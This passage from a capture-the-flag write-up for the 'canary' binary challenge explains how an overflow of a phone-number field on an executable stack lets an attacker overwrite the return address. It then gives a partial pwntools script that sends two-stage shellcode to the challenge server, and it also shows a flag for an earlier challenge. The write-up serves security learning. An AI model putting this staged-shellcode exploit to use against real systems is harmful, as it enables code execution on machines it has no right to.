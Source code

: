 <img src="/assets/img/tmu/areyouadmin_sol.png">

Flag is <span style="color:red">`TMUCTF{7h3_6375_func710n_15_d4n63r0u5_4nd_5h0uld_n07_b3_u53d}`</span>

# canary
<img src="/assets/img/tmu/canary.png">

This challenge was interesting it accepts two string and tells us if they are equal or not additionally it asks for phone number at end using this field we can overwrite return address. By using checksec we can see it has an executable stack.

The challenge also provides us with address of canary

**Leaked Canary Address + 12 = Address of String1**

The challenge doesn't have an actual stack canary but a dummy value placed between our string1 and string2.

The reason it says you cannot inject shellcode because both strings only accepts input upto 15 character.

In short its a <span style="color:red">shellcoding challenge</span> with a small buffer.

Exploit is simple we have to use a stage 1 shellcode which will read our stage 2 (main) shellcode.

```python
from pwn import *
context.arch = 'amd64'

flag = False

if flag:
    p = process("./canary")
else:
    p = remote("194.5.207.113",7030)

def stage1():
    stage1_shellcode = asm('''
                    xor eax,eax
                    xor edi,edi
                    mov rsi,rsp
                    mov dl,100
                    syscall
                    jmp rsp
                ''')
```